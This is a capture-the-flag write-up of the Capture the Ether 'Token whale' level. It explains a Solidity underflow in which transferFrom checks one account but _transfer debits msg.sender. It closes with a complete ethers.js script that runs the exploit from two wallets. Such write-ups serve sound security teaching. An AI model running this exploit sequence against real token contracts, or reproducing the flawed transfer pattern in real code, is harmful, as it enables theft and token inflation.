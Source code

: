 ```yaml
---
description: >-
  In Capture the Ether's "Token whale" we see a slightly more challenging and
  better obscured math-related vulnerability.
---
```


# Token whale

This [level](https://capturetheether.com/challenges/math/token-whale/) asks us to assume the role of a whale, holding the entirety of the token supply for a new protocol. Our challenge is to accumulate many more _without_ the ability to buy them outright.

### Hints

<details>

<summary>Hint One</summary>

The key to this exploit is still a "math" vulnerability much like the previous level. It's just obscured by one extra step, a particular oversight in the contract's implementation that is not math-related.

</details>

<details>

<summary>Hint Two</summary>

The "math" vulnerability we need to take advantage of is found in the `_transfer` function when called from `transferFrom`. We need to be able to satisfy each of the latter's `require` conditions first.

</details>

<details>

<summary>Hint Three</summary>

We will need to issue transactions from _two_ separate EOAs to solve this level.

</details>

### Full Walkthrough

As we scan the contract, we may notice both a potential overflow and underflow vulnerability within the `_transfer` function (lines 2 and 3 below):

```solidity
function _transfer(address to, uint256 value) internal {
    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;

    emit Transfer(msg.sender, to, value);
}
```

Line 3 would require submitting a `value` large enough to _over_flow our balance, which is impractical due to other restrictions imposed by the contract, but line 2, an _under_flow is worth investigating. If we could, for example, reduce our account balance to 0 by transferring away our tokens, then attempt to transfer just one more, it would "roll over" our balance to its type's maximum value. Is this possible?

Transferring the full amount of our tokens away to another address is straightforward. But transferring one additional token, i.e. one more than our current balance, cannot be achieved via the `transfer` function due to its `require(balanceOf[msg.sender] >= value);` condition. It **should** not be possible to do via `transferFrom` either, but there is a flaw in the implementation.

Let's examine the `transferFrom` function below:

```solidity
function transferFrom(address from, address to, uint256 value) public {
    require(balanceOf[from] >= value);
    require(balanceOf[to] + value >= balanceOf[to]);
    require(allowance[from][msg.sender] >= value);

    allowance[from][msg.sender] -= value;
    _transfer(to, value);
}
```

The function's `require` conditions check that the balance of the `from` address is greater than or equal to the value we are attempting to transfer, however, when it calls `_transfer`, that function actually spends tokens from `msg.sender`, ignoring the `from` address altogether. This means if we call the function from an address that has zero tokens, but pass an address that has a positive balance as the first argument, we can underflow the account of `msg.sender` in `_transfer`. The only other step required is first granting `msg.sender` the requisite allowance to call `transferFrom` on behalf of the `from` account (this is granted via the `approve` function). See the scripted solution below (beginning on line 60) for these steps in order.

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  // Create player one wallet
  const playerOneWallet = new ethers.Wallet(process.env.PLAYER_ONE_PRIVATE_KEY)
  // Create player one wallet signer - an abstraction of an Ethereum account
  const playerOneSigner = await playerOneWallet.connect(provider)
  // Create player two wallet
  const playerTwoWallet = new ethers.Wallet(process.env.PLAYER_TWO_PRIVATE_KEY)
  // Create player two wallet signer - an abstraction of an Ethereum account
  const playerTwoSigner = await playerTwoWallet.connect(provider)
  // Create contract signed by player one
  const contractWithPlayerOneSigner = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerOneSigner
  )
  // Create contract signed by player two
  const contractWithPlayerTwoSigner = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerTwoSigner
  )

  return {
    provider,
    playerOneAddress: process.env.PLAYER_ONE_ADDRESS,
    playerOneWallet,
    playerOneSigner,
    playerTwoAddress: process.env.PLAYER_TWO_ADDRESS,
    playerTwoWallet,
    playerTwoSigner,
    contractWithPlayerOneSigner,
    contractWithPlayerTwoSigner
  }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const {
    playerOneAddress,
    contractWithPlayerOneSigner,
    playerTwoAddress,
    contractWithPlayerTwoSigner
  } = await setup('TokenWhaleChallenge')

  // Approve player one to spend player two's tokens
  console.log("Approving player one to spend player two's tokens...")
  const approvePlayerOne = await contractWithPlayerTwoSigner.approve(
    playerOneAddress,
    1000
  )
  await approvePlayerOne.wait(1)

  // Transfer all of player one's tokens to player two
  console.log("Transfering all of player one's tokens to player two...")
  const transferToPlayerTwo = await contractWithPlayerOneSigner.transfer(
    playerTwoAddress,
    1000
  )
  await transferToPlayerTwo.wait(1)

  // Transfer one more coin from player one's empty wallet
  console.log(
    "Transfering one more token from player one's empty wallet to player two..."
  )
  const transferFromPlayerOne = await contractWithPlayerOneSigner.transferFrom(
    playerTwoAddress, // from: used to pass require, but not the actual 'from' account
    playerTwoAddress, // to: player two
    1 // value: 1 coin from player one's (msg.sender's) empty wallet
  )
  await transferFromPlayerOne.wait(1)

  // Confirm challenge completion
  console.log('Confirming challenge completion...')
  const challengeComplete = await contractWithPlayerOneSigner.isComplete()

  if (challengeComplete) {
    console.log('Challenge is complete!')
  }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
